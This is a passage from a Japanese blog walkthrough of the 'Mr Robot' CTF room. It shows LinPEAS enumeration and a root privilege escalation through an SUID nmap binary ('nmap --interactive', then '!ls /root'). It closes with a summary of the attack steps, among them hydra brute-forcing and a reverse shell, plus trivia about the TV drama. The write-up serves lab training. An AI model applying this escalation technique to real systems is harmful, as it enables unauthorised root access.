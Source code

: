 ```sh

$ ./linpeas.sh | tee linpeas_output.txt

```

すると、ごろごろと脆弱性が出てきます。ざーっと結果を読んでいくと、特に SUID に関する部分で、`nmap` を用いた脆弱性があることが見つかりました（LinPEAS は画像のように色付きで注目箇所が分かりとても便利です）

<img src="/images/2024/20241030a/MrRobotCTF_suid.png" alt="MrRobotCTF_suid.png" width="1200" height="574" loading="lazy">

「nmap SUID」と検索したら出てきた[こちらのサイト](https://gtfobins.github.io/gtfobins/nmap/)によると、バージョン 2.02～5.21 の間では、`nmap` には `--interactive` というオプションがあるようです。`nmap --interactive` を実行すると、root 権限のシェルにアクセスできるようです（恐ろしい！）
シェルに入って、`!ls /root` を実行したら最後の key3-of-3.txt もゲットできました。Root 権限でのシェルも手に入れたので、これにて Room 攻略完了です！お疲れさまでした！！

```sh
$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !ls /root 
!ls /root
firstboot_done  key-3-of-3.txt
```

### 攻略の整理

今回のフラグ獲得の手順と使ったツールをまとめます。Easy で出てくる一般的なツールを駆使して解き進めるので、比較的とっつきやすい Room だったと思います。

1. ポートスキャンで偵察（`nmap`）
2. Web サイトの調査（`gobuster`）
3. WordPress サイトの調査（`hydra`, `wpscan`）
4. 初期侵入の実施（reverse shell）
5. 権限昇格の調査（`JohnTheRipper`, LinPEAS）
6. 権限昇格の実行（`nmap --interactive`）

### 攻略後談

今回の Room は 2015 年にアメリカで大ヒットを記録した「Mr. Robot」というドラマが元ネタのようです。有料ですが、字幕版が [Prime Video](https://www.amazon.co.jp/gp/video/detail/B015NZFF8I) で公開されていますね。有志による [Wiki](https://mrrobot.fandom.com/wiki/Mr._Robot_Wiki) も公開されていて、物語やキャラの情報も色々と知ることができます。

攻略の途中で出てきた単語は以下のような繋がりがあるようです。

- Elliot というユーザ名は、このドラマに登場する主人公、天才ハッカーのエリオット・オルダーソン
- Mr. Robot は世界最大の利権企業を崩壊させようと目論む革命家
- fsociety は Mr. Robot やエリオットが率いるハッカー集団の名称

ドラマのテーマや概要を知ると、最初 http で接続したときに表示された画像や動画の意味が分かるようになりました。ドラマを見たらさらに理解が進みそうですね。
CTF には今回のような元ネタがある Room もあるので、攻略後に調べると「へ～」という発見がって面白い点です。

以上で Walkthrough 、そして本ブログを終えます。
